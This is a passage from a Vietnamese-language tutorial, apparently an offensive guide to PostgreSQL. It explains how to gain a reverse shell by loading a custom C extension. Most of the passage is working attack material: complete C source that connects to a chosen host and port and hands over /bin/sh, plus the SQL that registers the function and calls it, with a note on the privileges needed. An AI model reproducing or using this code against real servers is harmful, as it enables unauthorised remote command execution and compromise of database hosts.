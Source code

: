 Cách thứ hai là sử dụng PostgreSQL Extensions, cho phép người dùng tải các thư viện tùy chỉnh vào PostgreSQL để mở rộng chức năng. Một ví dụ điển hình là việc tạo một extension C để thực hiện một reverse shell.

#### Ví Dụ về Reverse Shell Extension

Chúng ta có thể tạo một extension C để thực hiện reverse shell như sau:

```c
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <stdio.h>

PG_MODULE_MAGIC;

PG_FUNCTION_INFO_V1(rev_shell);

Datum rev_shell(PG_FUNCTION_ARGS) {
    char *LHOST = text_to_cstring(PG_GETARG_TEXT_PP(0));
    int32 LPORT = PG_GETARG_INT32(1);
    struct sockaddr_in serv_addr;
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = htons(LPORT);
    inet_pton(AF_INET, LHOST, &serv_addr.sin_addr);

    int sock = socket(AF_INET, SOCK_STREAM, 0);
    int client_fd = connect(sock, (struct sockaddr*)&serv_addr, sizeof(serv_addr));

    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);

    execve("/bin/sh", NULL, NULL);
    PG_RETURN_INT32(0);
}
```

Sau khi biên dịch và tải extension này vào PostgreSQL, bạn có thể sử dụng câu lệnh sau để kích hoạt reverse shell:

```sql
bluebird=# CREATE FUNCTION rev_shell(text, integer) RETURNS integer AS '/tmp/pg_rev_shell', 'rev_shell' LANGUAGE C STRICT;
CREATE FUNCTION
bluebird=# SELECT rev_shell('127.0.0.1', 443);
```

Khi bạn gọi lệnh này, PostgreSQL sẽ tạo kết nối đến `127.0.0.1` trên port `443`, và bạn sẽ nhận được một shell ngược.

**Quyền Hạn Cần Thiết**: Để có thể tạo và gọi các hàm C trong PostgreSQL, người dùng cần phải có quyền superuser hoặc quyền `CREATE` trong schema public.

### Tự Động Hóa Tấn Công
